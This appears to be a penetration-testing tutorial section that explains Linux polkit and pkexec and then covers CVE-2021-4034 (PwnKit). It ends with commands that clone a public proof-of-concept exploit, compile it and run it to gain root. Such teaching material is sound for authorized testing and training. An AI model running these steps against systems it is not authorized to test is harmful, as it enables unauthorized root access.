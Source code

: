 PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so.
To check whether the user software is authorized for this instruction, `polkit` is asked. It is possible to set how permissions are granted by default for each user and application. For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorization as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. For individual users and groups, the authorizations can be assigned individually.

Polkit works with two groups of files.
1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell
pkexec -u <user> <command>
```

```shell
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

```shell
git clone https://github.com/arthepsy/CVE-2021-4034.git
```

```shell
gcc cve-2021-4034-poc.c -o poc
```

```shell
./poc
```





